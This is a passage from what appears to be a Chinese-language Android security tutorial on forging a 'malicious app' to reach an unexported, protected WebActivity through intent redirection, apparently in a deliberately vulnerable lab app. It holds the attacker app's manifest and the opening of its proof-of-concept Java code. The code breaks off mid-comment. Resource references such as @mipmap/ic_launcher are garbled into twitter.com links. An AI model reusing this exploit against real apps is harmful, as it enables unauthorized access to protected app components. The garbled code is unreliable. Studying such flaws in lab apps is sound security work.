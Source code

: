 **![](img/9e7e42cb9ba317839fb49733282c6f6a.png)**

**让我们伪造我们的恶意应用程序。**

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="[http://schemas.android.com/apk/res/android](http://schemas.android.com/apk/res/android)"
    package="com.evil.evilintentaccessprotectedovaa"><application
        android:allowBackup="true"
        android:icon="[@mipmap/ic_launcher](http://twitter.com/mipmap/ic_launcher)"
        android:label="[@string/app_name](http://twitter.com/string/app_name)"
        android:roundIcon="[@mipmap/ic_launcher_round](http://twitter.com/mipmap/ic_launcher_round)"
        android:supportsRtl="true"
        android:theme="[@style/Theme](http://twitter.com/style/Theme).Evilintentaccessprotectedovaa">
        <activity android:name=".MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" /><category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application></manifest>
```

**App 的 **PoC** :**

```
package com.evil.evilintentaccessprotectedovaa;import androidx.appcompat.app.AppCompatActivity;import android.content.ComponentName;
import android.content.Context;
import android.content.Intent;
import android.content.pm.PackageManager;
import android.os.Bundle;public class MainActivity extends AppCompatActivity {[@Override](http://twitter.com/Override)
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);//first intent will be prepared and targeted to protected un-exported
        //activity called WebActivity. But since we'll load 2 args of intent
        //that are the package name and the class, we'll create a context
```